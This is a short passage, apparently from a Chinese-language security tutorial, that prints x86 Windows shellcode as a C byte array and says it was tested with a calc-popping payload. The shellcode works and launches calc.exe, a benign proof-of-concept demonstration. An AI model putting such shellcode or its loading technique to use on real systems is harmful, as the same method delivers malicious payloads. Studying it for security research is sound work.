原shellcode：

```c_cpp
unsigned char buf[] =
"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30"
"\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
"\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52"
"\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1"
"\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b"
"\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03"
"\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b"
"\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24"
"\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb"
"\x8d\x5d\x6a\x01\x8d\x85\xb2\x00\x00\x00\x50\x68\x31\x8b\x6f"
"\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x68\xa6\x95\xbd\x9d\xff\xd5"
"\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a"
"\x00\x53\xff\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65\x00";
```

结合一段弹出calc的shellcode进行试验:

![截图](bf22478a0185ed18368ed59924a24161.png)
